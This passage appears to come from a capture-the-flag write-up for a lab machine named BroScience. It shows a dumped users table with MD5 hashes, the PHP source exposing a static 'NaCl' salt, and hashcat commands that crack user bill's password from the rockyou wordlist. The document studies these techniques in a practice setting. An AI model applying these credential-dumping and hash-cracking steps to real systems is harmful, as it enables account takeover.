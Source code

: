 ```
----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
  1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
  2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
  3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
  4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
  5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
(5 rows)

broscience=>
```

I get a few usernames, and their MD5 hashes, the interesting ones are **bill** and **administrator**. I try to crack these hashes with hashcat and the rockyou wordlist, but it fails. After a while, i realized that the database has a salt

```php
$db_salt = "NaCl";
```

and this salt is used when a user registers

```php
$res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));
```

Looking at hashcat [example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes), there is a hash that has the format i need
| Hash-Mode  |      Hash-Name     |                    Example                    |   |   |
|:----------:|:------------------:|:---------------------------------------------:|---|---|
| 20         |  md5($salt.$pass)  |  f0fda58630310a6dd91a7d8f0a4ceda2:4225637426  |   |   |

I edit the hashes to the correct format

```bash
❯ cat hashes
administrator:15657792073e8a843d4f91fc403454e1:NaCl
bill:13edad4932da9dbb57d9cd15b66ed104:NaCl
```

and start hashcat

```bash
❯ hashcat -m 20 --username hashes /usr/share/wordlists/rockyou.txt
```

and i get a password for bill.

```
❯ hashcat -m 20 --username hashes --show
bill:13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
```
